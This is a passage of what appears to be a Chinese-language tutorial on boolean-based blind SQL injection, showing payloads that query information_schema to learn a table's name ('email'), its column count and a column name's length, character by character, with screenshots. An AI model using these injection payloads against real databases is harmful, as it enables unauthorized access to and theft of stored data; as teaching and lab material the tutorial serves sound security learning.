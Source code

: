 ![](http://upload-images.jianshu.io/upload_images/118142-eaf16f9dc4f7a32a.jpg)

## 查询表名

我们这里演示如何查询第一个表的表名。

首先查询表名长度。

```
1 and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=?
```

问号处换成从 1 开始的整数。长度为 5：

![](http://upload-images.jianshu.io/upload_images/118142-6bc29940612a9a8e.jpg)

之后，再爆破每个字符。

```
1 and (select substr(table_name,$1,1) from information_schema.tables where table_schema=database() limit 0,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。

![](http://upload-images.jianshu.io/upload_images/118142-edd202af6a30957b.jpg)

查表可得，结果为`email`。

## 查询列数量

我们下面演示查询`email`表的列数。

```
1 and (select count(column_name) from information_schema.columns where table_name='email')=?
```

问号处替换为从一开始的数字。我们可以看到，数量 2。

![](http://upload-images.jianshu.io/upload_images/118142-835d83b4df9b7e5d.jpg)

## 查询列名称

作为演示，我这里查询第二列（`limit 1,1`）的名称。

首先需要查询其长度：

```
1 and (select length(column_name) from information_schema.columns where table_name='email' limit 1,1)=?
```

问号处换成从 1 开始的整数。长度为 5：

![](http://upload-images.jianshu.io/upload_images/118142-83611bd7189b880a.jpg)
